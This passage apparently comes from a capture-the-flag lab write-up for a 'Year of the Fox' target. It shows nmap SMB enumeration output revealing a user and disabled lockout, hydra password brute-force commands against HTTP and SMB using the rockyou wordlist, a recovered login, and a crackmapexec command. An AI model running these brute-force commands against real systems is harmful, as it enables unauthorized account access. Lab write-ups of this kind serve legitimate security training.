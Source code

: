 ```bash
|_  <nobody>
|_ipidseq: All zeros
|_fcrdns: FAIL (No PTR record)
| port-states: 
|   tcp: 
|_    open: 445
| dns-blacklist: 
|   SPAM
|     all.spamrats.com - FAIL
|_    l2.apews.org - FAIL
|_msrpc-enum: NT_STATUS_OBJECT_NAME_NOT_FOUND
| unusual-port: 
|_  WARNING: this script depends on Nmap's service/version detection (-sV)
| smb-enum-domains: 
|   Builtin
|     Groups: n/a
|     Users: n/a
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|     Account lockout disabled
|   YEAR-OF-THE-FOX
|     Groups: n/a
|     Users: fox
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|_    Account lockout disabled
|_path-mtu: PMTU == 1500

Post-scan script results:
| reverse-index: 
|_  445/tcp: 10.10.163.252
```

> **HTTP Head Password Brute Force**
> 

`hydra -l rascal -P /usr/share/wordlists/rockyou.txt yearofthefox.thm http-head /`

```bash
[REDACTED]

[80][http-head] host: yearofthefox.thm   login: rascal   password: chiva
```

> **SMB (Server Message Block) Password Brute Force**
> 

`hydra -l fox -P /usr/share/wordlists/rockyou.txt yearofthefox.thm smb`

```bash
[REDACTED] - SAME PASSWORD
```

`crackmapexec smb yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --content`
